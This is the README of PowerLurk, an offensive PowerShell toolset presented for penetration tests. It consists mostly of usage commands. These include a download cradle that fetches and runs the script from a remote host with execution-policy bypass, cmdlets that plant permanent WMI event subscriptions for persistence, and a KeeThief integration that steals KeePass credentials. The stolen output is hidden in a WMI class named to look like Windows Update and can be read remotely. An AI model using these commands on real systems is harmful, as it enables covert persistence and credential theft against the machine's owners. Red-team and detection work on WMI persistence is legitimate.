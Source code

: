 # PowerLurk

PowerLurk is a PowerShell toolset for building malicious WMI Event Subsriptions. The goal is to make WMI events easier to fire off during a penetration test or red team engagement. Please see my post **Creeping on Users with WMI Events: Introducing PowerLurk** for more detailed information: https://pentestarmoury.com/2016/07/13/151/

To use PowerLurk, you must import the PowerLurk.ps1 module into your instance of PowerShell. This can be done a couple of ways:

Import locally

```PS> powershell.exe -NoP -Exec ByPass -C Import-Module c:\\temp\\PowerLurk.ps1```

Download Cradle

```PS> powershell.exe -NoP -C "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/PowerLurk.ps1'); Get-WmiEvent"```

## Get-WmiEvent

By default, Get-WmiEvent queries WMI for all __FilterToConsumerBinding instances and associated __EventFilter, and __EventConsumer instances. 
Objects returned can be deleted by piping to Remove-WmiObject.

Return all active WMI event objects with the name 'RedTeamEvent'

```Get-WmiEvent -Name RedTeamEvent```

Delete 'RedTeamEvent' WMI event objects

```Get-WmiEvent -Name RedTeamEvent | Remove-WmiObject```

## Register-MaliciousWmiEvent

This cmdlet is the core of PowerLurk. It takes a command, script, or scriptblock as the action and a precanned trigger then creates the WMI Filter, Consumer, and FilterToConsumerBinding required for a fully functional Permanent WMI Event Subscription. A number of WMI event triggers, or filters, are preconfigured. The trigger must be specified with the -Trigger parameter. There are three consumers to choose from, PermanentCommand, PermanentScript, and LocalScriptBLock. Example usage:

Write the notepad.exe process ID to C:\temp\log.txt whenever notepad.exe starts

```Register-MaliciousWmiEvent -EventName LogNotepad -PermanentCommand “cmd.exe /c echo %ProcessId% >> c:\\temp\\log.txt” -Trigger ProcessStart -ProcessName notepad.exe```

Cleanup Malicious WMI Event

```Get-WmiEvent -Name LogNotepad | Remove-WmiObject```

## Add-KeeThiefLurker

creates a permanent WMI event that will execute KeeThief (See @Harmj0y's KeeThief at https://github.com/adaptivethreat/KeeThief) 4 minutes after the 'keepass' process starts. This gives the target time to log into their KeePass database. 

The KeeThief logic and its output are either stored in a custom WMI namespace and class or regsitry values. If a custom 
WMI namespace and class are selected, you have the option to expose that namespace so that it can be read remotely 
by 'Everyone'. Registry path and value names are customizable using the associated switches; however, this is optional as
defaults are set. Example usage:

Add KeeThiefLurker event using WMI class storage 

```Add-KeeThiefLurker -EventName KeeThief -WMI```

Query custom WMI class

```Get-WmiObject -Namespace root\software win32_WindowsUpdate -List```

Extract KeeThief output from WMI class

```[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($(Get-WmiObject -Namespace root\software win32_WindowsUpdate -List).Properties['Output'].value))```

Cleanup KeeThiefLurker

```Remove-KeeThiefLurker -EventName KeeThief -WMI```
